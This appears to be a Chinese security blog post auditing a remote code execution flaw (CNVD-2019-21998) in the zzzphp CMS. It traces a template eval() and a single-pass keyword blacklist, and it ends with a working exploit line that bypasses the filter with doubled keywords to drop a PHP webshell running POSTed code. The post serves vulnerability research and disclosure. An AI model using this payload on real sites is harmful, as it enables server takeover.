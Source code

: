 ```yaml
---
title: "zzzphp 远程代码执行审计"
date: 2019-08-21T22:28:44+08:00
draft: false
tags: ['code']
categories: ['代码审计']
---
```

又看到了cnvd中的一个有趣的洞！
<!--more-->

## zzzphp

> zzzphp是一款php语言开发的免费建站系统，以简单易上手的标签、安全的系统内核、良好的用户体验为特点，是站长建站的最佳选择。

晚上8点，做完作业发现cnvd报了一个[命令执行](https://www.cnvd.org.cn/flaw/show/CNVD-2019-21998)，本着两天不看代码看不懂的精神赶紧再来看下审计。

## 产生原因

zzzphp的模板是通过自写函数来进行解析的，过滤参数不严谨导致可以执行任意php代码。

## 漏洞分析

程序入口`index.php`引入`require 'inc/zzz_client.php';`

E:\code\php\zzzphp\inc\zzz_client.php:56

```php
 require 'zzz_template.php';
 if (conf('webmode')==0) error(conf('closeinfo'));
 $location=getlocation();
```

引入模板解析类并通过`getlocation()`使url和模板关联起来。

91行：当访问`http://127.0.0.1/search/` 时使用search模板

```php
case 'search':
	$tplfile= TPL_DIR . 'search.html'; 
```

157行

```php
$parser = new ParserTemplate();
$zcontent = $parser->parserCommom($zcontent); // 解析模板
```

实例化解析模板类，调用`parserCommom()`方法，跟进

inc/zzz_template.php

```php
public function parserCommom($zcontent)
    {
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->ParseInTemplate($zcontent); // 模板标签
        $zcontent = $this->parserConfigLabel($zcontent); //配置表情
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->parserCompanyLabel($zcontent); // 公司标签
        $zcontent = $this->parserUser($zcontent); //会员信息
        $zcontent = $this->parserlocation($zcontent); // 站点标签
        $zcontent = $this->parserLoopLabel($zcontent); // 循环标签		
        $zcontent = $this->parserContentLoop($zcontent); // 指定内容
        $zcontent = $this->parserbrandloop($zcontent);
        $zcontent = $this->parserGbookList($zcontent);
        $zcontent = $this->parserLabel($zcontent); // 指定内容
        $zcontent = $this->parserPicsLoop($zcontent); // 内容多图
        $zcontent = $this->parserad($zcontent);
        $zcontent = parserPlugLoop($zcontent);
        $zcontent = $this->parserOtherLabel($zcontent);
        $zcontent = $this->parserIfLabel($zcontent); // IF语句
        $zcontent = $this->parserNoLabel($zcontent);
        return $zcontent;
    }
```

可以看到这些是zzzphp模板解析，并且使用了自定义模板语句，跟进`$this->parserIfLabel()`函数

```php
public function parserIfLabel($zcontent)
{
    $pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
    if (preg_match_all($pattern, $zcontent, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i++) {
            $flag = '';
            $out_html = '';
            $ifstr = $matches[1][$i];
            $ifstr = danger_key($ifstr);
            $ifstr = str_replace('=', '==', $ifstr);
            $ifstr = str_replace('<>', '!=', $ifstr);
            $ifstr = str_replace('or', '||', $ifstr);
            $ifstr = str_replace('and', '&&', $ifstr);
            $ifstr = str_replace('mod', '%', $ifstr);
            //echop( $ifstr);
            @eval('if(' . $ifstr . '){$flag="if";}else{$flag="else";}');
            ... 省略
            return $zcontent;
        }
    }
}
```

看到了eval函数，并且有变量`$ifstr`，如果它可控，那么我们就可以执行任意代码。

看下他是怎么过滤的，`preg_match_all`匹配正则，要满足以下格式

```php
{if:条件}
代码
{end if}
```

然后经过一个`danger_key()`函数，跟进

inc/zzz_main.php

```php
function danger_key( $s , $len=255) {
    $danger=array('php','preg','server','chr','decode','html','md5','post','get','cookie','session','sql','del','encrypt','upload','db','$','system','exec','shell','popen','eval');   
    $s = str_ireplace($danger,"*",$s);
    return $s;
}
```

可以看到使用`str_ireplace()`替换了危险关键字，不过只是替换了一次，可以双写绕过。

到目前为止，整个漏洞的构造链已经很清晰了。

修改模板 -> 构造恶意if语句块 -> 访问 `http://localhost/search/`触发代码执行

## exp构造

- 问题一：上文提到了可以用双写绕过，但是关键字会被替换成一个`*`，我们可以重新用str_replace替换回来

- 问题二：`$`被替换，没办法用双写绕过，我们用`get_defined_vars()`来构造，参考 [PHP利用Apache、Nginx的特性实现免杀Webshell](https://y4er.com/post/apache-nginx-webshell/)

放一个我的构造的exp

后台 - 模板管理 - 修改search.html，添加一行

```php
{if:1)file_put_contents(str_replace('*','','Y4er.pphphp'),str_replace('*','','<?pphphp evevalal(ggetet_defined_vars()[_PPOSTOST][1]);'));//}{end if}
```

然后访问`http://localhost/search/` 然后会在 `http://localhost/search/Y4er.php`

## 修复建议

使用`preg_replace`过滤关键字而不是`str_ireplace()`，严格控制用户输入。

## 写在文后

需要登录后台，算是比较鸡肋，不过cnvd还爆了这个版本的注入，有兴趣的师傅可以看一下。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**